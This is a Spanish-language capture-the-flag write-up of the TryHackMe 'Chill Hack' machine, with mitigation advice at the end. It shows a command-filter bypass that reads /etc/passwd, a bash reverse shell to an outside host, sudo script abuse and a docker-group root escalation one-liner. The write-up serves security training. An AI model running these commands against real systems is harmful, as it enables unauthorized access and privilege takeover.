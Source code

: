 ```yaml
---
description: 'Dificultad: fácil'
---
```


# 💻 Chill Hack

## Enumeración

Comenzamos haciendo un escaneo de puertos con **Nmap:**

```bash
map -p- --open --min-rate 5000 -sSVC -Pn -v -oN escaneo.txt 10.10.14.130
```

<figure><img src="../../.gitbook/assets/imagen (41).png" alt="Escaneo Nmap"><figcaption></figcaption></figure>

Como se ve en la imagen la máquina tiene 3 puertos abiertos: **21(FTP)**, **22(SSH)**, **80(HTTP).**

Por el escaneo hecho con nmap vemos el servicio **FTP** tiene habilitado el login "anonymous" y que hay por lo menos un archivo **.txt,** así que entramos y descargamos el archivo **note.txt** a nuestro pc. Vemos que hay dos posibles usuarios: **anurodh** y **apaar.**\


<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>

Después nos pasamos al servicio **HTTP,** entramos a la página web e inspeccionamos pero no encontramos nada que nos ayude.

<figure><img src="../../.gitbook/assets/imagen (44).png" alt="Página web"><figcaption></figcaption></figure>

### Fuzzing web

Procedemos a hacer enumeración de directorios con **Gobuster:**

```bash
gobuster dir -u http://10.10.14.130 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Esto nos da una ruta de interés `/secret`

<figure><img src="../../.gitbook/assets/imagen (65).png" alt="Enumeracion gobuster"><figcaption></figcaption></figure>

Al ir a la ruta, encontramos con un campo en el que podemos introducir comandos, pero aquí es donde aplican las restricciones que se mencionaban en la nota, ya que al querer usar comandos como `ls` o `cat /etc/passwd` aparece un mensaje en rojo.

<div align="left">

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

</div>

Intentamos pasar este filtro usando el comando `echo` y confirmamos usuarios mencionados en la nota y algún otro.

```bash
echo $(cat /etc/passwd)
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

## Explotación

Una vez  visto como saltarnos las restricciones, podemos enviarnos una **reverse shell**

```bash
echo $(bash -c  "bash -i >& /dev/tcp/10.9.0.2/443 0>&1")
```

<figure><img src="../../.gitbook/assets/imagen (50).png" alt="reverse shell"><figcaption></figcaption></figure>

Hacemos enumeración de las carpetas de los usuarios entramos a la unica carpeta a la que tenemos acceso `/apaar` entre los archivos encontramos un script en bash llamado `.helpline.sh`, en el contenido del script podemos ver que podríamos ejecutar comandos.

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

Listamos que podemos ejecutar como sudo y por suerte podemos ejecutar el script como el usuario **apaar.**

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

## Movimiento Lateral

Ejecutamos el script como el usuario **apaar** y cuando nos pregunte por el mensaje ingresamos `/bin/bash`, con esto logramos migrar de usuario.

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

<figure><img src="../../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

Una vez dentro del usuario podemos ver la **primer flag** dentro del archivo `local.txt`

<figure><img src="../../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

Después de estar explorando mucho alguna forma de escalar privilegios o movernos a otro usuario, admito que tuve que buscar alguna pista, la cual encontré en este writeup:

{% embed url="https://hack.xero-sec.com/writeups/tryhackme/chill-hack" %}

Con esta pista, me di cuenta que debía de buscar en `/var/www/files` donde encontramos un archivo **.php,** al parecer debe de haber algo interesante con la imagen `hacker-with-laptop_23-2147985341.jpg`

<figure><img src="../../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

En la ruta de la imagen creamos un server en Python y en la descargamos en nuestra máquina local con **wget**.&#x20;

<figure><img src="../../.gitbook/assets/imagen (68).png" alt="Python server"><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

Una vez descargada la imagen, intentamos ver sus metadatos con **exiftool**, pero hallamos algo de interés. Por lo que usamos **steghide** extraer cual quier información oculta que pueda tener la imagen.

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Nos extrajo un archivo **.zip** el cual esta protegido con contraseña , por lo que usamos **JohnTheRipper**, primero extraemos la el **hash** de la contraseña con **zip2john** y después intentamos romper el hash con **John.**

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

Con la contraseña obtenida extraemos el contenido del zip, el cual es un archvio php, en su contenido podemos ver que esta contraseña en base64 del usuario **anurodh.**

<figure><img src="../../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña y en la máquina victima nos cambiamos al usuario **anurodh**

<div>

<figure><img src="../../.gitbook/assets/imagen (61).png" alt="Bas64 decoded password"><figcaption><p>base64 decode</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (62).png" alt="su anurodh"><figcaption><p>su anurodh</p></figcaption></figure>

</div>

## Escalada de privilegios

Con el comando `id`, vemos el el usuario anurodh pertenece al grupo **docker**

<figure><img src="../../.gitbook/assets/imagen (69).png" alt="id anurodh"><figcaption><p>id anurodh</p></figcaption></figure>

Haciendo una búsqueda rápida en [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), encontramos el siguiente comando para escalar privilegios.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Como **root** podemos ver el contenido de la **segunda flag**.

<figure><img src="../../.gitbook/assets/imagen (63).png" alt="root flag"><figcaption><p>root flag</p></figcaption></figure>

## Recomendaciones de mitigación

1. **Eliminar login anonimo del servicio FTP.**
2. **Configurar reglas de firewall para evitar escaneos automatizados.**
3. **Restringir la ejecución de comandos en el panel web**: Implementar controles estrictos sobre qué comandos pueden ejecutarse desde la interfaz web, limitando el acceso a solo aquellos necesarios para la funcionalidad del sistema. Además, utilizar mecanismos de escape para evitar la inyección de comandos maliciosos, y aplicar roles y permisos adecuados para el uso de esta funcionalidad.
4. **Validar entradas en scripts sensibles**: Modificar el script **helpline.sh** para evitar la ejecución de comandos arbitrarios al usar variables como `$msg`. En su lugar, las entradas de los usuarios deben ser validadas o sanitizadas para evitar inyecciones de comandos. Además, limitar la ejecución del script a usuarios autorizados y revisar las configuraciones de `sudo` para evitar escaladas de privilegios.
5. **Evitar exponer contraseñas**, incluso si están cifradas, y usuarios en scripts, como es el caso de `source_code.php`
6. **Implementar contraseñas más fuertes y seguras**, así como algoritmos de hasheo más robustos
